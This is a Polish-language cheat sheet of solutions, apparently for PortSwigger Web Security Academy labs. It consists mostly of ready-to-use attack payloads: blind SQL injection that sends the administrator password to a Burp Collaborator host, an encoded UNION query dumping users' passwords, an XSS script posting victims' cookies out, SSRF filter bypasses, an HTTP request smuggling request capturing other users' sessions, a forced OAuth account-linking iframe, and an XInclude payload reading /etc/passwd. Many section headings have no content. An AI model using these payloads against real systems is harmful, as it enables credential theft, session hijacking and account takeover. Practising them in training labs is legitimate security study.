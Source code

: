 ## SQL injection
### Blind SQL injection with out-of-band data exfiltration
```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```
1. Logujemy się jako administrator zdobytym hasłem.

### SQL injection with filter bypass via XML encoding
1. StoreId podmieniamy na:
```
<storeId>&#x31;&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x7c;&#x7c;&#x20;&#x27;&#x7e;&#x27;&#x20;&#x7c;&#x7c;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</storeId>
```
Hackvertor
```
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```
2. Logujemy się jako administrator

## Cross-site scripting
### Exploiting cross-site scripting to steal cookies
1. Exploit server:
```js
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
2. Podnieniamy cookie na zdobyte i wchodzimy na '/my-account`

## Cross-site request forgery (CSRF)

## Clickjacking

## DOM-based vulnerabilities

## Cross-origin resource sharing (CORS)

## XML external entity (XXE) injection

## Server-side request forgery (SSRF)
### SSRF with blacklist-based input filter
1. Podmieniamy stockApi na:
```
http://127.1/%2561dmin
```
 
## HTTP request smuggling
### Exploiting HTTP request smuggling to capture other users' requests
1. Tworzymy request, cookie będzie w komentarzu
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```

## OS command injection

## Server-side template injection

## Directory traversal

## Access control vulnerabilities

## Authentication
### Brute-forcing a stay-logged-in cookie

## WebSockets

## Web cache poisoning

## Insecure deserialization

## Information disclosure

## Business logic vulnerabilities

## HTTP Host header attacks

## OAuth authentication
### Forced OAuth profile linking
1. Podczas logowania znajdujemy link łączący konta i podmieniamy go w kodzie poniżej i przeklejamy do exploit servera (dropujemy request, żeby nie został użyty)
```js
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>
```
2. Sprawdzamy czy konta są połączone

## File upload vulnerabilities

## JWT

## Essential skills
### Discovering vulnerabilities quickly with targeted scanning
Podnieniamy productId na:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Prototype pollution
